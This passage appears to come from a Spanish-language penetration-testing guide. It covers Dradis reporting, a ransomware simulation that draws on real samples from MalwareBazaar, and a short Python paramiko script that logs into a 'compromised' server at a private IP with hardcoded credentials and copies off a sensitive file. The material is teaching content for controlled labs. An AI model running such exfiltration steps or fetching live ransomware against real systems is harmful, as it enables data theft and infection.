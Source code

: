 ### 10.6.1. Generación de Reportes con Dradis

**Dradis** es una plataforma de reportes de seguridad que puede integrarse con varias herramientas de pentesting, como Metasploit y Nmap, para generar reportes automáticos después de una simulación de ataque.

**Instalación de Dradis**:
```bash
sudo apt install dradis
```

Una vez que Dradis está instalado y configurado, puedes importar los resultados de las pruebas automatizadas y generar reportes detallados para tus clientes o equipo de seguridad.

---

## 10.7. Ejemplos Prácticos de Simulaciones Automatizadas

### 10.7.1. Simulación de Ransomware

Puedes automatizar la simulación de un ataque de ransomware en entornos controlados utilizando herramientas como **MalwareBazaar** para descargar muestras de ransomware.

**Simulación de un ataque de ransomware**:
```bash
python3 ransomware_simulation.py
```

Este script puede cifrar archivos en un directorio de prueba para simular el comportamiento de un ransomware.

### 10.7.2. Simulación de Exfiltración de Datos

Con **Python** o **Metasploit**, puedes automatizar una simulación de exfiltración de datos, donde los archivos son extraídos desde un servidor comprometido.

```python
import paramiko

# Conexión SSH al servidor comprometido
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
ssh.connect('192.168.1.10', username='user', password='password')

# Descargar archivos
sftp = ssh.open_sftp()
sftp.get('/home/user/datos_sensibles.txt', '/local/path/datos_sensibles.txt')
sftp.close()
ssh.close()
```

---

## 10.8. Recomendaciones para la Automatización de Ataques Simulados
